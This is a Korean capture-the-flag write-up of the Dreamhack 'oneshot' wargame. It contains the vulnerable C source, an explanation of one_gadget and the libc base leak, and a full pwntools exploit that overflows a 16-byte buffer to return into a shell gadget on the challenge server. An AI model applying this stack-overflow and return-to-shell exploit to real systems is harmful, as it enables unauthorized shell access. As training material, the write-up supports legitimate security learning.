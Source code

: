```yaml
---
tags: [dreamhack, wargame, write-up]		
published : false
---
```


```bash
// gcc -o oneshot1 oneshot1.c -fno-stack-protector -fPIC -pie

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    char msg[16];
    size_t check = 0;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("MSG: ");
    read(0, msg, 46);

    if(check > 0) {
        exit(0);
    }

    printf("MSG: %s\n", msg);
    memset(msg, 0, sizeof(msg));
    return 0;
}
```

onesoht gadget이란

oneshot-gadget은 해당 가젯의 주소로 점프하여 호출하는 것만으로 /bin/sh이 실행되는 가젯이다. 그저 ret 영역에 oneshot-gadget의 주소를 덮어씌워줌으로써 exploit 된다.

---

프로그램을 실행하면 printf를 통해 libc 내부 stdout 전역 변수의 주소가 출력되는데, 해당 주소로 오프셋 계산을 통해 libc_base 주소를 알아낼 수 있다.

![Image](/assets/img/oneshot/image1.png)

해당 결과를 통해 stdout의 offset은 0x3c5708 라는 것을 구할 수 있다.

이제 one_gadget을 찾아야 하는데, one_gadget은 심볼 테이블에 이름으로 등록된 게 아니고, 코드 내부 특정 instruction 흐름에서 조건이 맞으면 shell로 직행하는 주소이다. 

readelf -s 는 심볼(함수, 변수)만 보여주므로 one_gadget이 나오지않는다.

따라서 직접 libc 바이너리를 분석해서 offset을 뽑아주는 one_gadget 툴을 써야한다.

![Image](/assets/img/oneshot/image2.png)

![Image](/assets/img/oneshot/image3.png)

```bash
from pwn import *

def slog(name, addr):
    return success(": ".join([name, hex(addr)]))

p = remote("host3.dreamhack.games", 23842)
e = ELF("./oneshot")
libc = ELF("./libc.so.6")

one_gadget = 0x45216

p.recvuntil("stdout: ")
stdout = int(p.recvline()[:-1], 16)
base = stdout - libc.symbols["_IO_2_1_stdout_"]
one_gadget = base + one_gadget

slog("STDOUT", stdout)
slog("base", base)
slog("one gadget", one_gadget)

payload = b'A'*24
payload += b'\x00'*8
payload += b'B'*8
payload += p64(one_gadget)

p.sendafter("MSG: ", payload)
p.interactive()
```
